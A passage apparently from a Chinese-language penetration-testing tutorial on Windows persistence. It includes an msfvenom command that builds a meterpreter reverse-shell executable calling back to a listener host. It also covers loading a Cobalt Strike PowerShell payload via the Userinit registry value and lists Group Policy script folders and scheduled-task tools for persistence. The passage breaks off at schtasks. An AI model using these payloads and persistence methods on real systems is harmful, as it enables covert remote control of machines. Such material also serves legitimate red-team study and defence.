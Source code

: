 ![image.png](https://img.ghostliner.top/ZWPqXg.png)

msf生成木马

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.163.132 lport=4444 -f exe -o mm32.exe
```

注销重新登录，msf 监听成功

#### 3.2.2. Userinit 无落地文件 cs 上线

cs 生成 powershell payload

![image.png](https://img.ghostliner.top/edc111.png)

生成的 Payload
![image.png](https://img.ghostliner.top/mHjcRX.png)

将其复制粘贴到 Userinit 中

![image.png](https://img.ghostliner.top/kaeGzV.png)

注销后登录，cs 上线成功

### 3.3. 组策略脚本启动文件夹

组策略脚本存放位置
- 计算机启动脚本目录：`C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup`
- 计算机关机脚本目录：`C:\Windows\System32\GroupPolicy\Machine\Scripts\Shutdown`
- 用户登录脚本目录：`C:\Windows\System32\GroupPolicy\User\Scripts\Logon`
- 用户注销脚本目录：`C:\Windows\System32\GroupPolicy\User\Scripts\Logoff`

![image.png](https://img.ghostliner.top/qu2N25.png)

**脚本支持类型**：`bat`、`ps1`、`cmd` 等

### 3.4. 计划任务

工具：
- `at`: 用于创建简单的一次性任务，已过时
- `schtasks`: 用于创建复杂的周期性任务

#### 3.4.1. at

```batch
# 创建计划任务 
at 14:30 "notepad.exe"
# 删除计划任务
at ID /delete
```

#### 3.4.2. schtasks

**创建任务(/create)**
